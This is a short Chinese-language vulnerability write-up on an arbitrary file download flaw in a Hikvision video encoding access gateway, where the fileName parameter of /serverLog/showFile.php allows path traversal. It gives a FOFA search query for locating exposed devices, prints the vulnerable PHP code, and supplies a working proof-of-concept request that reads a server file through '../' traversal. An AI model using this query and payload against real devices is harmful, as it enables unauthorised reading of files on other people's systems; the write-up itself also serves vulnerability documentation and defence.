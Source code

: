 # HIKVISION 视频编码设备接入网关 showFile.php 任意文件下载漏洞

## 漏洞描述

海康威视视频接入网关系统在页面/serverLog/**showFile.php**的参数fileName存在任意文件下载漏洞

## 漏洞影响

<a-checkbox checked>HIKVISION 视频编码设备接入网关</a-checkbox></br>

## FOFA

<a-checkbox checked>title="视频编码设备接入网关"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1630063019704-4b10f55b-d725-4866-b5aa-e73d638b2f27.png)

漏洞文件为 **showFile.php**, 其中 **参数 fileName** 没有过滤危险字符，导致可文件遍历下载



```php
<?php
					$file_name = $_GET['fileName'];
					$file_path = '../../../log/'.$file_name;
					$fp = fopen($file_path, "r");
					while($line = fgets($fp)){
						$line = nl2br(htmlentities($line, ENT_COMPAT, "utf-8"));
						echo '<span style="font-size:16px">'.$line.'</span>';
					}
					fclose($fp);
?>
```



验证POC

```python
/serverLog/showFile.php?fileName=../web/html/main.php
```

![img](../../../.vuepress/public/img/1630063348342-40566a14-18d5-467b-b259-ad3c6888c456.png)